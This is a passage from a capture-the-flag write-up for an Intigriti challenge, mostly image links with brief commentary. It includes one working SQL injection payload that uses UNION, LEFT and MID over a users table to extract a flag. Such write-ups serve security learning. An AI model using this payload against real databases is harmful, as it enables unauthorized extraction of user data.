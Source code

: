 like this

![Untitled](Writeup%20Intigriti%20challenge-0923%20e1c9e79616944cd7b87b643a50e93802/Untitled%2012.png)

- So when combine with the function **MID**, we got the flag

```php
1*(1)union(select(LEFT(F.4,8)),(MID(F.4,10)),(3)from(select(1),(2),(3),(4)union(select*from(users)))F)
```

![Untitled](Writeup%20Intigriti%20challenge-0923%20e1c9e79616944cd7b87b643a50e93802/Untitled%2013.png)

- Observe this more clearly in the browser
